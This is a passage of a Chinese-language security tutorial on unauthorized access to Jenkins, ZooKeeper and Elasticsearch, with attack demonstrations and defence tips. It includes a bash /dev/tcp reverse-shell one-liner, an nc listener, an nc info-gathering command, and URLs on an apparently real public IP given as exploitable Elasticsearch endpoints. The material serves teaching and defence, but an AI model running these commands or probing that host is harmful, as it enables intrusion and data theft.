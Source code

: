 ```
new File("/tmp/1.php").write("""
This is
just a test file
to play with
```
""");


![图片](https://uploader.shimo.im/f/s3jV3u4fyjwS1CDL.png!thumbnail)

虽然没有回显，但实际上已经把反弹shell的脚本写入到靶机的/tmp/目录下了

![图片](https://uploader.shimo.im/f/A15JIQ2kYAUPcnZ0.png!thumbnail)

![图片](https://uploader.shimo.im/f/tqvsxor7eLA8d8Ez.png!thumbnail)

在我们的攻击机上用 ' nc -lvvp 4444' 监听本地4444端口，在执行完上面语句之后若能成功则会看到如下内容：
 
![图片](https://uploader.shimo.im/f/tH0pmyyWqDkXZQoQ.png!thumbnail)

【有个坑点：由于本人在Docker下直接 pull jenkins的镜像进行安装，所以镜像下的系统权限非root，故在网页的脚本控制台处使用 ' bash -i >& /dev/tcp/10.0.0.1/8080 0>&1 ' 则会失败】
###   【防御方法】
  * 禁止把Jenkins直接暴露在公网
  * 添加认证，设置强密码复杂度及账号锁定。
## ZooKeeper
###    【漏洞简介】
>Zookeeper的默认开放端口是2181。Zookeeper安装部署之后默认情况下不需要任何身份验证，造成攻击者可以远程利用Zookeeper，通过服务器收集敏感信息或者在Zookeeper集群内进行破坏（比如：kill命令）。攻击者能够执行所有只允许由管理员运行的命令。

 
###    【攻击演示】
直接使用 如下命令：

```
echo envi | nc P<IP> <PORT>
```

![图片](https://uploader.shimo.im/f/GdMG2C63WI8YMHYz.png!thumbnail)

###    【防御方法】
  1. 禁止把Zookeeper直接暴露在公网
  2. 添加访问控制，根据情况选择对应方式（认证用户，用户名密码）
  3. 绑定指定IP访问

## Elasticsearch
###    【漏洞简介】
>Elasticsearch是一款java编写的企业级搜索服务。越来越多的公司使用ELK作为日志分析，启动此服务默认会开放9200端口，可被非法操作数据
###    【攻击演示】
可以用的漏洞节点：
>[http://101.198.161.130:9200/_cat/indices/](http://101.198.161.130:9200/_cat/indices/http://101.198.161.130:9200/_plugin/head/)
>[http://101.198.161.130:9200/_plugin/head/](http://101.198.161.130:9200/_cat/indices/http://101.198.161.130:9200/_plugin/head/)
>[http://101.198.161.130:9200/_nodes](http://101.198.161.130:9200/_nodeshttp://101.198.161.130:9200/_nodes?prettify)
>[http://101.198.161.130:9200/_nodes?prettify](http://101.198.161.130:9200/_nodeshttp://101.198.161.130:9200/_nodes?prettify)
>[http://101.198.161.130:9200/_status](http://101.198.161.130:9200/_statushttp://101.198.161.130:9200/_search?pretty)